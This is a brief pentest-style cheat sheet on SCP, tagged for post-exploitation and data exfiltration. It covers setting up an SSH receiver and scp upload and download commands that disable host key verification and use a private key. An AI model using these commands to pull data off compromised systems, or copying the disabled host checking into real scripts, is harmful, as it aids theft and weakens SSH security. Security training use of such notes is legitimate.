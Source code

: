# SCP

Search Tag(s): #post-exploitation #file-transfer-and-data-exfiltration #ssh #linux

## 01 - Setup

### 1.1 - Installation

`$ sudo apt install openssh-server`

### 1.2 - Hardening

```
$ sudo mkdir -p /var/www/storage/

$ sudo useradd -s /bin/false -M aiden

$ passwd aiden

$ sudo chown aiden:aiden /var/www/storage/

$ sudo usermod -d /var/www/storage/ aiden
```

## 1.2 - Usage

### 1.2.1 - Upload

`$ scp /path/to/file.txt -o "UserKnownHostsFile=/dev/null StrictHostKeyChecking=no" -i id_rsa <username>@<IP>:.`

**I**mprove scp file transfer performance by **using blowfish** and `compression` flag of `-C`

`$ scp -Cc blowfish /path/to/file.txt -o "UserKnownHostsFile=/dev/null StrictHostKeyChecking=no" -i id_rsa <username>@<IP>:.`

`$ scp -o HostKeyAlgorithms=+ssh-rsa /path/to/file.txt <username>@<IP>:.`

### 1.2.1 - Download

`$ scp <username>@<IP>:/path/to/file.txt -o "UserKnownHostsFile=/dev/null StrictHostKeyChecking=no" -i id_rsa .`

- Improve scp file transfer performance by **using blowfish** and `compression` flag of `-C`

`$ scp -Cc blowfish <username>@<IP>:/path/to/file.txt -o "UserKnownHostsFile=/dev/null StrictHostKeyChecking=no" -i id_rsa .`

`$ scp -o HostKeyAlgorithms=+ssh-rsa <username>@<IP>:/path/to/file.txt .`

---
## References

- [Gabb4r Gitbook File Transfer Linux](https://gabb4r.gitbook.io/oscp-notes/file-transfer/linux)

- [Techmint SCP Commands Examples](https://www.tecmint.com/scp-commands-examples/)